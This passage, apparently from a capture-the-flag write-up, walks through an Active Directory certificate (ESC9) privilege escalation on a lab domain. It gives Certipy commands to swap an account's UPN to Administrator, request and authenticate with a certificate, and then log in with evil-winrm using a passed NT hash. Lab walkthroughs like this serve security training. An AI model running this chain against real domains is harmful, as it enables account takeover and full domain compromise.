 > ![](images/media/image32.png){width="2.9375in"
> height="1.868409886264217in"}

13. NoSecurityExtension exists, see screenshot, so **ESC9 can be used to
    attack**.

> With TOOL Certipy: **Update NT hash to account CA_OPERATOR. Change
> account\'s UserPrincipalName (UPN) to Administrator**.
>
> **RUN:** **certipy-ad account update -username
> management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584
> -user ca_operator -upn Administrator**
>
> **If successful, there is now a Aministrator certificate that can
> represent the account.**

14. **Requests a certificate from a Certificate Authority (CA)** within
    an Active Directory environment

> **RUN:** **certipy-ad req -username ca_operator@certified.htb -p
> 123456789 -ca certified-DC01-CA -template CertifiedAuthentication
> -debug**

15. Use Certipy to **perform Kerberos authentication as a user through
    the certificate file ADMINISTRATOR.PFX**,
    Administrator@certified.htb and successfully obtain the TGT and NT
    hash

> **RUN:** **certipy-ad auth -pfx administrator.pfx -domain
> certified.htb**

16. Use REMOTE TOOL to **LOGIN REMOTELY** (USER: administrator)

> **RUN:** **evil-winrm -i certified.htb -u administrator -H
> \"0d5b49608bbce1751f708748f67e2d34\"**
